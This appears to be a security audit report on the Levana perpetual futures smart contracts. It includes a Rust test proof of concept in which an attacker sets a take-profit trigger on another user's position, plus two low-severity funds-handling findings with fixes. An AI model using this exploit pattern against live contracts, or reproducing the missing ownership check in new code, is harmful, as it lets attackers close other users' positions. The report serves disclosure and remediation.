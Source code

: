 # Overview

Levana is a cosmos based perpetuals futures protocol.

# Findings

---

## [C-1] Attackers can modify the position of other users via the trigger order flow

## Description

When setting a trigger order, users specify which posiion ID they want to modify. There are no checks that the position to modify belong to that user.

## Proof of issue

```rust
#[test]
fn poc_set_other_users_trigger_order_high() {
    // Setup
​
    let market = PerpsMarket::new(PerpsApp::new_cell().unwrap()).unwrap();
​
    let trader = market.clone_trader(0).unwrap();
​
    let cranker = market.clone_trader(1).unwrap();
​
    // Trader that will execute attack on other trader's positions
    let attacker = market.clone_trader(3).unwrap();
​
    let take_profit_override = PriceBaseInQuote::try_from_number(105u128.into()).unwrap();
​
    let trigger_and_assert = |pos_id: PositionId| {
        market.exec_set_price("105".try_into().unwrap()).unwrap();
        market.exec_crank(&cranker).unwrap();
​
        let pos = market.query_closed_position(&trader, pos_id).unwrap();
        assert_position_take_profit(&pos).unwrap();
    };
​
    // Set price of the market to be 1--
    market.exec_set_price("100".try_into().unwrap()).unwrap();
    let (pos_id, _) = market
        .exec_open_position(
            &trader,
            "100",
            "10",
            DirectionToBase::Long,
            "1.0",
            None,
            None,
            None,
        )
        .unwrap();
    // @audit - Supplied the sender to be the attacker address. The attacker was able to execute a set trigger order for another user.
    market
        .exec_set_trigger_order(&attacker, pos_id, None, Some(take_profit_override))
        .unwrap();
    // Market price increases and initates trigger set by the attacker when take_profit gains are met
    trigger_and_assert(pos_id);
}
​
```

## Severity an impact

This is a critical vulnerability because users can trigger when other users' positions close. An attacker would essentially be able to close and modify ANY other user's position without their permission.

## Recommendation

The recommendation is to include authority checks when setting trigger orders. Only the owner of a position should be allowed to set their own trigger orders.

---

## [L-1] Users funds can be locked when performing operations that accept native tokens

## Description

Additional funds sent to any operation that uses `get_native_funds_amount`, will be lost and locked into the market contract. This is because funds are sent as an array and only the first item in that array that is a native token is used for the operation.

## Proof of Issue

```rust
pub(crate) fn get_native_funds_amount(
        &self,
        store: &mut dyn Storage,
        info: &MessageInfo,
    ) -> Result<NonZero<Collateral>> {
        let amount = match self.get_token(store)? {
            Token::Native {
                denom,
                decimal_places,
            } => {
                let coin = info
                    .funds
                    .iter()
                    .find(|coin| coin.denom == *denom)
                    .ok_or_else(|| {
                        perp_anyhow!(
                            ErrorId::NativeFunds,
                            ErrorDomain::Market,
                            "no coins attached!"
                        )
                    })?; //@audit - get_native_funds doesn't account for a funds vector greater than 1
```

## Severity and Impact Summary

Users that send any additional funds in the funds array will lose those tokens.

## Recommendation

The recommendation is to use the cosmwasm utils for receiving payments. In the code snippet below, the cosmwasm team implements checks for funds array containing multiple items. Alternatively, the team can error out anytime a users sends anything with a funds length greater than 1.

```rust
/// If exactly one coin was sent, returns it regardless of denom.
/// Returns error if 0 or 2+ coins were sent
pub fn one_coin(info: &MessageInfo) -> Result<Coin, PaymentError> {
    match info.funds.len() {
        0 => Err(PaymentError::NoFunds {}),
        1 => {
            let coin = &info.funds[0];
            if coin.amount.is_zero() {
                Err(PaymentError::NoFunds {})
            } else {
                Ok(coin.clone())
            }
        }
        _ => Err(PaymentError::MultipleDenoms {}),
    }
}

```

---

## Title: [L-1] Users incur additional fees when calling removal updates in the CW20 handler

## Description

RExecuteMsgs that don't require sent funds occur in two sections of the market contract code. one of the places theses occur in take place within the CW20 handler. This CW20 handler requires a minumm fee to be payed when executing a removal branch. Essentially a user would pay extra fees if they were to execute these messages that are nested in the CW20 handler.

## Proof of Issue

```rust

 ExecuteMsg::Receive {
            amount,
            msg,
            sender,
        } => {
            ...
              Token::Cw20 {
                    addr,
                    decimal_places, // @audit-info info.sender is the cw20 token contract in this case.As long
                } => {
                  ...
                    NonZero::new(Collateral::from_decimal256(Decimal256::from_atomics(
                        amount.u128(),
                        (*decimal_places).into(),
                    )?))
                    .context("Cannot send 0 tokens into the contract")?
                }

                ExecuteMsg::UpdatePositionRemoveCollateralImpactLeverage {...}

                ExecuteMsg::UpdatePositionRemoveCollateralImpactSize {...}

                ExecuteMsg::UpdatePositionLeverage {...}

                ExecuteMsg::UpdatePositionMaxGains {...}

                ExecuteMsg::PlaceLimitOrder {...}
            };

```

## Severity and Impact Summary

The impact is low because the fee required is only `amount > 0`. There is also an alterante path for user to execute their actions without having to pay the additional fees.

## Recommendation

The recommended action is to encourage users to not use the nested CW20 position update handlers and to use the alternate path. Furthermore, it would be beneficial to remove or force users to use the path that doesn't require the extra fees.

---

## [Link to Public Report](https://docsend.com/view/md5zh8fwxmaxejja)

## [Audit release details](https://blog.levana.finance/levana-perps-passes-security-audit-by-fyeo-a-comprehensive-summary-of-the-audit-report-fec50fa73c18)
